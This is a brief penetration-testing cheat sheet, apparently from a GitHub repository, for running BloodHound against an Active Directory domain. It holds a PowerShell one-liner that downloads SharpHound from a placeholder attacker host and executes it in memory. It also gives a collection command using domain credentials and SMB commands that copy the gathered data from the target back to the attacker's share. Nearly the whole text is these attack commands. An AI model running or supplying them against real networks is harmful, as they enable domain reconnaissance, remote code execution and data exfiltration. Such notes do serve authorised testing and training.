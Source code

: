 # BloodHound
## Upload sharphound
`iex(new-object net.webclient).downloadstring("http://<ip>:<port>/SharpHound.ps1")`

## Collect Data
`invoke-bloodhound -collectionmethod all -domain <domain> -ldapuser <user> -ldappass <password>`

## Transfer Back
On Host: `smbserver.py share . -smb2support -username df -password df`
On Target: `net use \\<ip>\share /u:df df`
`copy *.zip \\<ip>\share*`

## Installation
- install from apt
- `neo4j console`
- neo4j:neo4j
- close window, leave service running
- `bloodhound`



